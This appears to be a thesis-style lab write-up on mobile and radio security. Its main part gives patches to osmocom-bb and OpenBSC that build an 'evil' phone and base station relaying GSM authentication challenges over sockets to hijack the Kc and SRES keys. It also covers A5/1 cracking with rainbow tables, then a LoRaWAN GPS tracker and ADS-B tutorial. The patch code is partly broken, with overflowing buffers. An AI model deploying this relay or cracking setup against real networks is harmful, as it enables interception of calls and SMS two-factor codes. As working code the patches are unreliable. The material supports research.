   server rand 888 listen on 0.0.0.0
   client sres 666 -> 172.17.0.3

   bb-2rfa 172.17.0.3
   client rand 888 -> 172.17.0.2
   server sres 666 listen on 0.0.0.0
   server kc 777 listen on 0.0.0.0

   osmocom-genuine-ms 172.17.0.2
   client kc 777 -> 172.17.0.3

Headers :
---------

suppress_space.h

.. code-block:: c

   #include <stdio.h>
   char res[100];
   char* spaces(char str [])
   {
   int i = 0;int j = 0;
          while (str[i] != '\0')
          {
             if ((str[i] == ' ') != 1) {
               res[j] = str[i];
               j++;
             }
             i++;
          }
          res[j] = '\0';
   return res;}

hex.h

.. code-block:: c

   /*
    * Read hex strings and output as text.
    *
    * No checking of the characters is done, but the strings must have an even
    * length.
    *
    * $Id: hex2ascii.c,v 1.1 2009/09/19 23:56:49 grog Exp $
    */

   #include <stdio.h>
   #include <stdlib.h>
   #include <string.h>
   #include "suppress_space.h"
   char hexdigit (char c)
   {
     char outc;

     outc = c -'0';
     if (outc > 9)                                 /* A - F or a - f */
       outc -= 7;                                  /* A - F */
     if (outc > 15)                                /* a - f? */
       outc -= 32;
     if ((outc > 15) || (outc < 0))
     {
       fprintf (stderr, "Invalid character %c, aborting\n", c);
       exit (1);
     }
     return outc;
   }
   char ascii[17];
   const unsigned char* hex2ascii(char hexval[])
   {  int arg;
     char *c=spaces(hexval);
     int sl;
     char oc;

     for (arg = 0; arg < 17; arg++)
     {
       sl = strlen (c);
       if (sl & 1)                                 /* odd length */
       {
         fprintf (stderr,
                  "%s is %d chars long, must be even\n",
                  c,
                  sl );
         return "prout";
       }int i=0;
       while (*c)
       {
         oc = (hexdigit (*c++) << 4) + hexdigit (*c++);
         fputc (oc, stdout);
         strcat(ascii,&oc);
       }
     }
   return ascii;}

client.h (respect address and port of client server arch)

.. code-block:: c

   /**
    * Example taken from CS 241 @ UIUC
    * Edited by Austin Walters
    * Used as example for austingwalters.com,
    * in socket IPC explanation.
    */

   #include <stdio.h>
   #include <stdlib.h>
   #include <string.h>
   #include <sys/types.h>
   #include <sys/socket.h>
   #include <netdb.h>
   #include <unistd.h>

   void client(char buffer[]){

     int sock_fd = socket(AF_INET, SOCK_STREAM, 0);

     struct addrinfo info, *result;
     memset(&info, 0, sizeof(struct addrinfo));
     info.ai_family = AF_INET;
     info.ai_socktype = SOCK_STREAM;

     if(0 != getaddrinfo("172.17.0.3", "888", &info, &result))
       exit(1);

     /* Connects to bound socket on the server */  
     connect(sock_fd, result->ai_addr, result->ai_addrlen);

     printf("SENDING: %s", buffer);
     write(sock_fd, buffer, strlen(buffer));

     char resp[999];
     int len = strlen(buffer);
     resp[len] = '\0';
     printf("%s\n", resp);
   }

server.h (respect variable length : 13 for sres, 25 for kc, 51 for rand, and port from arch client-server) 

.. code-block:: c

   /**
    * Written by Austin Walters
    * For an example on austingwalters.com,
    * on sockets
    */

   #include <stdio.h>
   #include <stdlib.h>
   #include <string.h>
   #include <sys/types.h>
   #include <sys/socket.h>
   #include <netdb.h>
   #include <unistd.h>
   char text[13];
   char* catch_sres(){

     int sock_fd = socket(AF_INET, SOCK_STREAM, 0);
     struct addrinfo directives, *result;
     memset(&directives, 0, sizeof(struct addrinfo));
     directives.ai_family = AF_INET;
     directives.ai_socktype = SOCK_STREAM;
     directives.ai_flags = AI_PASSIVE;

     /* Translates IP, port, protocal into struct */
     if(0 !=  getaddrinfo("0.0.0.0", "666", &directives, &result))
       exit(1);

     /* Binds socket to port, so we know where new connections form */
     if(bind(sock_fd, result->ai_addr, result->ai_addrlen) != 0)
         exit(1);
     /* Places socket to "listen" or "wait for stuff" state */
     if(listen(sock_fd, 10) != 0)
         exit(1);
     int i=0;
     printf("Waiting for connection on http://0.0.0.0:666 ...\n");
     while(i==0){

       /* Accepts Connection */
       char buffer[1000];
       int client_fd = accept(sock_fd, NULL, NULL); 
       int len = read(client_fd, buffer, 999);
       buffer[len] = '\0';

       char * header = "<b>You Connected to the Server!</b></br></br>";
       i=i+1;
       write(client_fd, header, strlen(header));

       printf("=== Client Sent ===\n");
       printf("%s\n", buffer);
       memcpy(text,buffer,13);
       close(client_fd);

     }
     return text;
   }

Evil-MS :
---------

.. code-block:: bash

   git clone https://github.com/osmocom/osmocom-bb
   git checkout fc20a37cb375dac11f45b78a446237c70f00841c
   wget https://gitlab.com/francoip/thesis/raw/public/patch/thesis.patch
   patch -p1 < thesis.patch

.. code-block:: patch

   diff -ru osmocom-bb/src/host/layer23/src/mobile/gsm48_mm.c heartbreaker/bb-2rfa/src/host/layer23/src/mobile/gsm48_mm.c
   --- osmocom-bb/src/host/layer23/src/mobile/gsm48_mm.c   2022-08-30 15:39:46.222274989 +0200
   +++ heartbreaker/bb-2rfa/src/host/layer23/src/mobile/gsm48_mm.c 2022-08-30 15:35:55.472598046 +0200
   @@ -20,6 +20,7 @@
     */

    #include <stdint.h>
   +#include <string.h>
    #include <errno.h>
    #include <stdio.h>
    #include <string.h>
   @@ -41,7 +42,7 @@
    #include <osmocom/bb/mobile/app_mobile.h>
    #include <osmocom/bb/mobile/vty.h>
    #include <osmocom/bb/mobile/dos.h>
   -
   +#include "client.h"
    extern void *l23_ctx;

    void mm_conn_free(struct gsm48_mm_conn *conn);
   @@ -1662,6 +1663,15 @@
        */
       if (mm->est_cause == RR_EST_CAUSE_EMERGENCY && set->emergency_imsi[0])
           no_sim = 1;
   +   char test2[]="1";
   +   sprintf(test2, "%d", ar->key_seq);
   +   char test3[3]="-";//"87 65 43 21 87 65 43 21 87 65 43 21 87 65 43 21";
   +   strcat(test3,test2);
   +   char test[51]="87 65 43 21 87 65 43 21 87 65 43 21 87 65 43 21";
   +   strcpy(test,osmo_hexdump(ar->rand,16));
   +   strcat(test,test3);
   +   LOGP(DMM, LOGL_INFO, "AUTHENTICATION REQUEST (seq %s)\n", test);
   +   client(test);
       gsm_subscr_generate_kc(ms, ar->key_seq, ar->rand, no_sim);

       /* wait for auth response event from SIM */
   diff -ru osmocom-bb/src/host/layer23/src/mobile/subscriber.c heartbreaker/bb-2rfa/src/host/layer23/src/mobile/subscriber.c
   --- osmocom-bb/src/host/layer23/src/mobile/subscriber.c 2022-08-30 15:38:53.125893570 +0200
   +++ heartbreaker/bb-2rfa/src/host/layer23/src/mobile/subscriber.c   2022-08-30 15:35:55.476598075 +0200
   @@ -30,6 +30,11 @@
    #include <osmocom/bb/common/osmocom_data.h>
    #include <osmocom/bb/common/networks.h>
    #include <osmocom/bb/mobile/vty.h>
   +#include "server.h"
   +#include "server2.h"
   +#include "hex.h"
   +#include "hex2.h"
   +

    /* enable to get an empty list of forbidden PLMNs, even if stored on SIM.
     * if list is changed, the result is not written back to SIM */
   @@ -945,14 +950,21 @@

           /* store sequence */
           subscr->key_seq = key_seq;
   -       memcpy(subscr->key, vec->kc, 8);
   +

           LOGP(DMM, LOGL_INFO, "Sending authentication response\n");
   +                char *h4ck3d_kc;
   +                h4ck3d_kc = catch_kc();
   +                const unsigned char *my_h4ck3d_kc=hex2ascii(h4ck3d_kc);
   +       char *h4ck3d_sres;
   +       h4ck3d_sres = catch_sres();
   +           const unsigned char *my_h4ck3d_sres=hex2ascii2(h4ck3d_sres);
   +       memcpy(subscr->key, my_h4ck3d_kc, 8);
           nmsg = gsm48_mmevent_msgb_alloc(GSM48_MM_EVENT_AUTH_RESPONSE);
   -       if (!nmsg)
   -           return -ENOMEM;
           nmme = (struct gsm48_mm_event *) nmsg->data;
   -       memcpy(nmme->sres, vec->sres, 4);
   +           memcpy(nmme->sres,my_h4ck3d_sres, 4);
   +       LOGP(DMM, LOGL_INFO, "KC hijacked = %s\n",osmo_hexdump(my_h4ck3d_kc,8));
   +       LOGP(DMM, LOGL_INFO, "SRES hijacked = %s\n",osmo_hexdump(my_h4ck3d_sres,4));
           gsm48_mmevent_msg(ms, nmsg);

           return 0;

Genuine-MS (Kc Forwarding)
--------------------------

Patch osmocom-bb

.. code-block:: bash

   git clone https://github.com/osmocom/osmocom-bb
   git checkout fixeria/trxcon

.. code-block:: patch

   diff -ru trx/src/host/layer23/src/mobile/gsm48_mm.c osmocom-bb/src/host/layer23/src/mobile/gsm48_mm.c
   --- trx/src/host/layer23/src/mobile/gsm48_mm.c  2022-08-30 16:41:37.076916961 +0200
   +++ osmocom-bb/src/host/layer23/src/mobile/gsm48_mm.c   2022-08-30 15:51:17.267099639 +0200
   @@ -1651,6 +1651,7 @@
        */
       if (mm->est_cause == RR_EST_CAUSE_EMERGENCY && set->emergency_imsi[0])
           no_sim = 1;
   +   LOGP(DMM, LOGL_INFO, "AUTHENTICATION REQUEST (rand %s)\n", osmo_hexdump(ar->rand,16));  
       gsm_subscr_generate_kc(ms, ar->key_seq, ar->rand, no_sim);

       /* wait for auth response event from SIM */
   diff -ru trx/src/host/layer23/src/mobile/subscriber.c osmocom-bb/src/host/layer23/src/mobile/subscriber.c
   --- trx/src/host/layer23/src/mobile/subscriber.c    2022-08-30 16:41:37.076916961 +0200
   +++ osmocom-bb/src/host/layer23/src/mobile/subscriber.c 2022-08-30 15:51:17.267099639 +0200
   @@ -32,7 +32,7 @@
    #include <osmocom/bb/common/sap_proto.h>
    #include <osmocom/bb/common/networks.h>
    #include <osmocom/bb/mobile/vty.h>
   -
   +#include "client.h"
    /* enable to get an empty list of forbidden PLMNs, even if stored on SIM.
     * if list is changed, the result is not written back to SIM */
    //#define TEST_EMPTY_FPLMN
   @@ -369,6 +369,7 @@

       /* key */
       memcpy(subscr->key, data, 8);
   +   //client(osmo_hexdump(subscr->key,8));

       /* key sequence */
       subscr->key_seq = data[8] & 0x07;
   @@ -907,7 +908,7 @@
       struct msgb *nmsg;
       struct sim_hdr *nsh;

   -   /* not a SIM */
   +   /* not a SIM
       if (!GSM_SIM_IS_READER(subscr->sim_type)
        || !subscr->sim_valid || no_sim) {
           struct gsm48_mm_event *nmme;
   @@ -944,6 +945,7 @@

           /* store sequence */
           subscr->key_seq = key_seq;
   +       //client(osmo_hexdump(vec->kc,8));
           memcpy(subscr->key, vec->kc, 8);

           LOGP(DMM, LOGL_INFO, "Sending authentication response\n");
   @@ -969,6 +971,7 @@

       /* random */
       memcpy(msgb_put(nmsg, 16), rand, 16);
   +   LOGP(DMM, LOGL_NOTICE, "Key Sequence=%d\n",key_seq);

       /* store sequence */
       subscr->key_seq = key_seq;
   @@ -1019,7 +1022,9 @@
       nsh->file = 0x6f20;
       data = msgb_put(nmsg, 9);
       memcpy(data, subscr->key, 8);
   -   data[8] = subscr->key_seq;
   +        LOGP(DMM, LOGL_NOTICE, "KC=%s\n",osmo_hexdump(subscr->key,8));
   +   client(osmo_hexdump(subscr->key,8));
   +   data[8] = subscr->key;
       sim_job(ms, nmsg);

       /* return signed response */

Patch OpenBSC Evil-BTS:
-----------------------

.. code-block:: bash

   git clone https://github.com/osmocom/openbsc
   git checkout 3f457a3b79e2908664b40eab9ca8e70c44a54898

.. code-block:: patch

   diff -ru openbsc/openbsc/src/libmsc/gsm_04_08.c bsc-2rfa/openbsc/src/libmsc/gsm_04_08.c
   --- openbsc/openbsc/src/libmsc/gsm_04_08.c  2022-08-30 16:59:20.033455224 +0200
   +++ bsc-2rfa/openbsc/src/libmsc/gsm_04_08.c 2022-08-30 15:51:17.243099474 +0200
   @@ -70,7 +70,10 @@
    #include <osmocom/gsm/tlv.h>

    #include <assert.h>
   +#include "server.h"
   +#include "hex.h"
   +#include "client.h"

    void *tall_locop_ctx;
    void *tall_authciphop_ctx;

   @@ -908,6 +911,20 @@
       struct msgb *msg = gsm48_msgb_alloc_name("GSM 04.08 AUTH REQ");
       struct gsm48_hdr *gh = (struct gsm48_hdr *) msgb_put(msg, sizeof(*gh));
       struct gsm48_auth_req *ar = (struct gsm48_auth_req *) msgb_put(msg, sizeof(*ar));
   +        DEBUGP(DMM, "-> AUTH REQ (rand = %s)\n", osmo_hexdump(rand, 16));
   +   
   +
   +
   +   char *test;
   +   test=catch_rand();
   +   printf("test %s\n",test);
   +   char *randy=strtok(test," -");
   +   printf("rand %s\n",rand);
   +   char *kandy_seq=strtok(NULL,"-");
   +   printf("key_seq %s\n",kandy_seq);
   +   char *randy_magnum = spaces(randy);
   +        const unsigned char *randynator=hex2ascii(randy_magnum);
   +        memcpy(rand,randynator,16);

       DEBUGP(DMM, "-> AUTH REQ (rand = %s)\n", osmo_hexdump(rand, 16));
       if (autn)
   @@ -917,7 +934,7 @@
       gh->proto_discr = GSM48_PDISC_MM;
       gh->msg_type = GSM48_MT_MM_AUTH_REQ;

   -   ar->key_seq = key_seq;
   +   ar->key_seq = kandy_seq;

Installing BTS-Evil:
--------------------

.. code-block:: bash

   git clone https://github.com/bbaranoff/heartbreaker

   #!/bin/bash
   mkdir /heartbreaker
   cd /heartbreaker
   apt install autoconf-archive libdbd-sqlite3 gcc-9 g++-9 gcc-10 g++-10 git autoconf pkg-config libtool build-essential libtalloc-dev libpcsclite-dev gnutls-dev python2 python2-dev fftw3-dev libsctp-dev libdbi-dev -y
   cp /usr/bin/python2 /usr/bin/python
   update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-9 90 --slave /usr/bin/g++ g++ /usr/bin/g++-9
   update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-10 100 --slave /usr/bin/g++ g++ /usr/bin/g++-10
   update-alternatives --set gcc /usr/bin/gcc-9
   git clone git://git.osmocom.org/libosmocore.git
   cd  libosmocore
   git checkout 1.1.0
   autoreconf -fi
   ./configure
   make
   make install
   ldconfig
   cd ..
   git clone git://git.osmocom.org/libosmo-dsp.git
   cd libosmo-dsp
   libtoolize && autoreconf -fi
   autoreconf -fi
   ./configure
   make
   make install
   ldconfig
   apt install -y libortp-dev
   cd ..

   git clone https://github.com/osmocom/osmocom-bb
   cd osmocom-bb/src
   git checkout fixeria/trxcon
   make nofirmware

   cd ../..
   git clone https://github.com/osmocom/libosmo-abis
   cd libosmo-abis
   git checkout 0.8.1
   autoreconf -fi && ./configure --disable-dahdi && make -j4 && make install && ldconfig

   cd ..
   git clone https://github.com/osmocom/libosmo-netif
   cd libosmo-netif
   git checkout 0.6.0
   autoreconf -fi && ./configure && make -j4 && make install && ldconfig


   cd bsc-2rfa/openbsc
   autoreconf -fi && ./configure && make -j4
   cd ../..
   git clone https://github.com/osmocom/osmo-bts
   cd osmo-bts
   git checkout 0.8.1
   autoreconf -fi && ./configure --enable-trx && make -j4 && make install && ldconfig

   apt install ruby-libxml ruby-dev ruby-dbus
   gem install serial smartcard

Installing MS-Evil :
--------------------

.. code-block:: bash

   git clone https://github.com/bbaranoff/heartbreaker

   #!/bin/bash
   mkdir /heartbreaker
   cd /heartbreaker
   apt install autoconf-archive libdbd-sqlite3 gcc-9 g++-9 gcc-10 g++-10 git autoconf pkg-config libtool build-essential libtalloc-dev libpcsclite-dev gnutls-dev python2 python2-dev fftw3-dev libsctp-dev libdbi-dev -y
   cp /usr/bin/python2 /usr/bin/python
   update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-9 90 --slave /usr/bin/g++ g++ /usr/bin/g++-9
   update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-10 100 --slave /usr/bin/g++ g++ /usr/bin/g++-10
   update-alternatives --set gcc /usr/bin/gcc-9
   git clone git://git.osmocom.org/libosmocore.git
   cd  libosmocore
   git checkout 1.1.0
   autoreconf -fi
   ./configure
   make
   make install
   ldconfig
   cd ..
   git clone git://git.osmocom.org/libosmo-dsp.git
   cd libosmo-dsp
   libtoolize && autoreconf -fi
   autoreconf -fi
   ./configure
   make
   make install
   ldconfig
   apt install -y libortp-dev
   cd ..

   git clone https://github.com/osmocom/osmocom-bb
   cd osmocom-bb/src
   git checkout fixeria/trxcon
   make nofirmware

   cd ../..
   git clone https://github.com/osmocom/libosmo-abis
   cd libosmo-abis
   git checkout 0.8.1
   autoreconf -fi && ./configure --disable-dahdi && make -j4 && make install && ldconfig

   cd ..
   git clone https://github.com/osmocom/libosmo-netif
   cd libosmo-netif
   git checkout 0.6.0
   autoreconf -fi && ./configure && make -j4 && make install && ldconfig
   cd ..

   cd bsc-2rfa/openbsc
   autoreconf -fi && ./configure && make -j4
   cd ../..
   git clone https://github.com/osmocom/osmo-bts
   cd osmo-bts
   git checkout 0.8.1
   autoreconf -fi && ./configure --enable-trx && make -j4 && make install && ldconfig

   apt install ruby-libxml ruby-dev ruby-dbus
   gem install serial smartcard

Installing MS-Evil
------------------

.. code-block:: bash

   #!/bin/bash
   mkdir /heartbreaker
   cd /heartbreaker
   apt install autoconf-archive libdbd-sqlite3 gcc-9 g++-9 gcc-10 g++-10 git autoconf pkg-config libtool build-essential libtalloc-dev libpcsclite-dev gnutls-dev python2 python2-dev fftw3-dev libsctp-dev libdbi-dev -y
   cp /usr/bin/python2 /usr/bin/python
   update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-9 90 --slave /usr/bin/g++ g++ /usr/bin/g++-9
   update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-10 100 --slave /usr/bin/g++ g++ /usr/bin/g++-10
   update-alternatives --set gcc /usr/bin/gcc-9
   git clone git://git.osmocom.org/libosmocore.git
   cd  libosmocore
   git checkout 0.9.0
   autoreconf -fi
   ./configure
   make
   make install
   ldconfig
   cd ..
   git clone git://git.osmocom.org/libosmo-dsp.git
   cd libosmo-dsp
   libtoolize && autoreconf -fi
   autoreconf -fi
   ./configure
   make
   make install
   ldconfig

   cd ../bb-2rfa/src
   make nofirmware

**A5/1 Cracking**
---------------------

Download the tables :

`a51_tables <https://infocon.org/rainbow%20tables/A51/>`_

Prepare them :

.. code-block:: bash


   #!/bin/bash
   offset_total=0
   echo 0 > test
   for abblay in $echo $(ls /media/$USER/tables) ; do abblay2=$(echo $abblay | sed 's/.dlt//g');
   cd /media/$USER/indexes/
   /media/$USER/indexes/kraken/TableConvert/TableConvert di /media/$USER/tables/$abblay2.dlt $abblay2.ins:$offset_total $abblay2.idx
   taille_arrondie=$(echo $(( $(( $(stat -c%s $abblay2.ins)/4096 )) +1 )) *4096 | bc)
   offset_total=$(($taille_arrondie + $offset_total))
   echo $taille_arrondie >> test
   done
   awk '{S+=$0}{print S}END{}' test > offsets
   git clone http://jenda.hrach.eu/p/deka
   git clone https://github.com/0x7678/typhon-vx/tree/master/kraken
   sudo add-apt-repository ppa:deadsnakes/ppa
   sudo apt update
   sudo apt install python3.7 python3.7-dev nvidia-utils-515-server xserver-xorg-video-nvidia-515
   sudo python3.7 -m pip install pyopencl numpy scipy
   cd deka
   ./genkernel64.sh > slice.c
   sed -i -e 's/3.5m/3.7m/g' Makefile
   make

\newpage

----

**Lora :**
--------------

**GPS tracker via LoraWAN**
-------------------------------


.. image:: uml.png
   :target: uml.png
   :alt: UML


ISO : https://drive.google.com/file/d/1YTdmb8JlvePSKiniwBKYyqXx-m-NhzIe/view?usp=sharing

**Installation du routeur sur Internet (via WiFi)**

N.B. : Pourquoi via WiFi ? Dans le cas particulier de l'Université de Perpignan Via Domitia, le FireWall "n'aime" pas les connections sur le port 1700 nécessaire à l'établissement de la connection routeur -> TheThingsNetwork.


* Plug on sector the gateway with USB-C 5V-2A
  a WiFi network dragino-XXXXXX apparait. 
* Connect to it via the password "dragino+dragino"
* Go on the webbrowser on IP 10.130.1.1 an Id/Pwd is asked by the dragino (by default) "root" / "dragino"
* Connect via the WiFi Mesh the dragino as a client to your smartphone or your box for example


.. image:: WiFi_Dragino.png
   :target: WiFi_Dragino.png
   :alt: WiFi_Dragino


**Routage des paquets LoRa vers TheThingsNetwork**


* Create a thethingsnetwork account (free, need email)
* We can see the Gateway EUI on the LoRa tab of the network interface
* We have to choose now TheThingsNetwork v3 on the defilant menu beside (the thingsnetwork v is avaible but not deserved for new gateways on TTN)
* On the second defilant menu choose eu1.cloud.thethings.network


.. image:: config_gw_ttn.png
   :target: config_gw_ttn.png
   :alt: config_gw_ttn

On thethingsnetwork :

Fill the Gateway EUI same as precedent configuration on the dragino. Le GatewayID is free but must be unique and available on TTN. The gateway name is totally free of choice.
Enfin les Gateway Server Address doit correspondre au précedent soit pour l'Europe :
eu1.cloud.thethings.network

The last option can be let as it is.

You have now your gateway connected to LoRaWAN


.. image:: config_ttn_gw.png
   :target: config_ttn_gw.png
   :alt: config_ttn_gw


**Preparation of the RaspberryPi (the connected object) :**
A raspberry is a minicomputer of the height approximatively of a Bank card with the power of a smartphone et a I/O electrical pinout. The Operationnal System of this hardware is often (and in this study) on a micro-SD card (it can be Netboot, USB/HDD, eMMC). We gonna greate the SD card with this methodology :

**The SD-Card :**

Download Raspi-Imager from
https://www.raspberrypi.com/software/

To install it on Ubuntu > 20.04 you just have to do (Ctrl-Alt-t) and type

.. code-block:: bash

   sudo snap install rpi-imager

Then we download the Debian Bullseye OS


.. image:: choose_os.png
   :target: choose_os.png
   :alt: choose_os


we select the following options
ssh : username/password (advice : "pi"/"raspberry")
Wifi : from the phone or any you have available
optional : set hostname = raspberry.local


.. image:: options_sd_rpi.png
   :target: options_sd_rpi.png
   :alt: options_sd_rpi


We the the media that will be written on
Then we put the SD-Card on the raspberry and monitor it via HDMI. Or if you don't have HDMI hardware you can access through SSH. For example if the local network is 192.168.1.0/24 you can do (on the host)

.. code-block:: bash

   nmap 192.168.1.1-254 -p 22

to know RPi IP adress or you can try

.. code-block:: bash

   sudo arp -a

Then to spawn a shell on the RPi

.. code-block:: bash

   ssh pi@ip_found_previously

or

.. code-block:: bash

   ssh pi@raspberrypi.local

Then on the shell

.. code-block:: bash

   sudo apt update && sudo apt upgrade

Now we install necessary packages

.. code-block:: bash

   sudo apt install git device-tree-compiler git python3-crypto python3-nmea2 python3-rpi.gpio python3-serial python3-spidev python3-configobj gpsd libgps-dev gpsd-clients python3-pip
   pip3 install simplecayennelpp
   git clone https://github.com/bbaranoff/libgps
   cd libgps
   make 
   sudo make install
   sudo ldconfig
   nano /etc/default/gpsd

.. code-block::

   # Default settings for the gpsd init script and the hotplug wrapper.

   # Start the gpsd daemon automatically at boot time
   START_DAEMON="true"

   # Use USB hotplugging to add new USB devices automatically to the daemon
   USBAUTO="false"

   # Devices gpsd should collect to at boot time.
   # They need to be read/writeable, either by user gpsd or the group dialout.
   DEVICES="/dev/ttyAMA0"

   # Other options you want to pass to gpsd
   GPSD_OPTIONS="-n"

Now we add to /boot/config.txt those lines at the end

.. code-block::

   enable_uart=1
   dtoverlay=miniuart-bt
   dtoverlay=spi-gpio-cs

We modify /boot/cmdline.txt to make it looks like

.. code-block::

   dwc_otg.lpm_enable=0 console=tty1 root=/dev/mmcblk0p2 rootfstype=ext4 elevator=deadline fsck.repair=yes rootwait

Then /home/pi

.. code-block:: bash

   git clone https://github.com/computenodes/dragino
   cd dragino/overlay
   dtc -@ -I dts -O dtb -o spi-gpio-cs.dtbo spi-gpio-cs-overlay.dts
   sudo cp spi-gpio-cs.dtbo /boot/overlays/
   sudo reboot

Then in /home/pi we create gpscron like :

.. code-block:: bash

   #!/bin/bash
   sudo python3 /home/pi/dragino/test_cayenne.py

It will be called par cron. (Advice ! Set ``sudo chmod 644 gpscorn`` to avoid privilege escalation)

Then we write in /home/pi/dragino : test_cayenne.py like

.. code-block:: python

   #!/usr/bin/env python3
   """
       Test harness for dragino module - sends hello world out over LoRaWAN 5 times
   """
   import logging
   from datetime import datetime
   from time import sleep
   import RPi.GPIO as GPIO
   from dragino import Dragino
   #import subprocess
   import gpsd
   from simplecayennelpp import CayenneLPP # import the module required to pack th$
   import binascii
   # importing the module
   # Connect to the local gpsd
   gpsd.connect()
   packet = gpsd.get_current()
   # See the inline docs for GpsResponse for the available data
   print(packet.position())
   lat = packet.lat
   lon = packet.lon
   alt = packet.alt

   print (lat, lon, alt)
   lpp = CayenneLPP()
   lpp.addGPS( 1, lat, lon, alt)
   text=binascii.hexlify(lpp.getBuffer()).decode()
   sent=list(binascii.unhexlify(text))
   print(text)
   logLevel=logging.DEBUG
   logging.basicConfig(filename="test.log", format='%(asctime)s - %(funcName)s - %(lineno)d - %(levelname)s - %(message)s', level=logLevel)
   D = Dragino("/home/pi/dragino/dragino.ini", logging_level=logLevel)
   D.join()
   while not D.registered():
       print("Waiting for JOIN ACCEPT")
       sleep(2)
   for i in range(0, 2):
       D.send_bytes(sent)
       start = datetime.utcnow()
       while D.transmitting:
           pass
       end = datetime.utcnow()
       print("Sent GPS coordinates ({})".format(end-start))
       sleep(1)

We take now /home/pi/dragino/dragino.ini.default to rewrite it to /home/pi/dragino/dragino.ini like

.. code-block::

   gps_baud_rate = 9600
   gps_serial_port = /dev/ttyS0
   gps_serial_timeout = 1
   gps_wait_period = 10

   #LoRaWAN configuration
   spreading_factor = 7
   max_power = 0x0F
   output_power = 0x0E
   sync_word = 0x34
   rx_crc = True
   #Where to store the frame count
   fcount_filename = .lora_fcount

   ##Valid auth modes are ABP or OTAA
   ##All values are hex arrays eg devaddr = 0x01, 0x02, 0x03, 0x04
   #auth_mode = "abp"
   #devaddr = 
   #nwskey = 
   #appskey =

   auth_mode = otaa
   deveui = 0xFF, 0xFE, 0xFD, 0xFC, 0xFC, 0xFD, 0xFE, 0xFF
   appeui = 0x70, 0xB3, 0xD5, 0x00, 0x00, 0xD5, 0xB3, 0x70
   appkey = 0x3D, 0x83, 0xC3, 0x16, 0x2C, 0xAD, 0x44, 0xB7, 0xB0, 0x50, 0x6C, 0x3C, 0xA1, 0x54, 0x36, 0xB7

By choosing DevEUI, AppEUI (unique on TTN), and AppKey with enough entropy that it can't be cracked (beware of MSB, LSB writing between dragin_cayenne.py and TTN)
Enfin pour executer le script python toutes les minutes :

.. code-block:: bash

   sudo crontab -e

We select our favorite editor to add

.. code-block::

   * * * * * /home/pi/gpscron

at the endfile.
For the raspberry we are now ready to go. Lets see from the network side

**LoraWan Conection (TheThingsNetwork)**

Go to application -> Create then in EndDevices -> + Add Endevice


.. image:: add_enddevice.png
   :target: add_enddevice.png
   :alt: add_enddevice


Then with previous parameters set on the RPi (AppEUI, DevEUI, AppKey)  in /home/pi/dragino/dragino.ini we put them on TTN

So in this study example :

.. code-block::

   deveui = 0xFF, 0xFE, 0xFD, 0xFC, 0xFC, 0xFD, 0xFE, 0xFF
   appeui = 0x70, 0xB3, 0xD5, 0x00, 0x00, 0xD5, 0xB3, 0x70
   appkey = 0x3D, 0x83, 0xC3, 0x16, 0x2C, 0xAD, 0x44, 0xB7, 0xB0, 0x50, 0x6C, 0x3C, 0xA1, 0x54, 0x36, 0xB7


.. image:: register_enddevice.png
   :target: register_enddevice.png
   :alt: register_enddevice


Power On the Pi (Trick to make GPS work (on RPi) !!!!!)

Sur le shell du pi :

.. code-block:: bash

   sudo ntpdate fr.pool.ntp.org

Put the RPi outside
Pull off the Tx Jumper of the dragino and wait for 3D Fix (the green blinking light of the dragino). Then hotplug the jumper Tx.

You should have (your first ?) connected object

**Payload Format**

In this study we have choose the CayenneLPP format like 


.. image:: format_cayenne.png
   :target: format_cayenne.png
   :alt: format_cayenne


In the created application you should see your device


.. image:: coordonnees_ttn.png
   :target: coordonnees_ttn.png
   :alt: coordonnees_ttn


**Data monitoring (Cayenne Integration)**

Go to https://mydevices.com/

Create a Cayenne Account

Select TheThingsNetwork


.. image:: add_new_cayenne.png
   :target: add_new_cayenne.png
   :alt: add_new_cayenne


Sélection Dragino RPi Hat et mettre le DevEUI


.. image:: dragino_cayenne.png
   :target: dragino_cayenne.png
   :alt: dragino_cayenne



.. image:: gps_live.png
   :target: gps_live.png
   :alt: gps_live

Live Data from GPS tracker !

\newpage

**ADSB**
------------

Automatic Dependent Surveillance Broadcast (ADS-B)

Definition

A means by which aircraft, aerodrome vehicles and other objects can automatically transmit and/or receive data such as identification, position and additional data, as appropriate, in a broadcast mode via a data link.

https://github.com/antirez/dump1090

To run the program in interactive mode, with networking support, and connect with your browser to http://localhost:8080 to see live traffic:

./dump1090 --interactive --net


.. image:: avion.png
   :target: avion.png
   :alt: avion


\newpage

**Appendix**
----------------

Redirection Attack Code

``` {r, eval=FALSE}

!/bin/bash
==========

git clone git://git.code.sf.net/p/openlte/code openlte-code
cd openlte-code
git checkout a5a66e

.. code-block::


   ``` {r, eval=FALSE, diff}

\newpage

**Bibliograpy**
-------------------

----

nocite: '@*'
------------
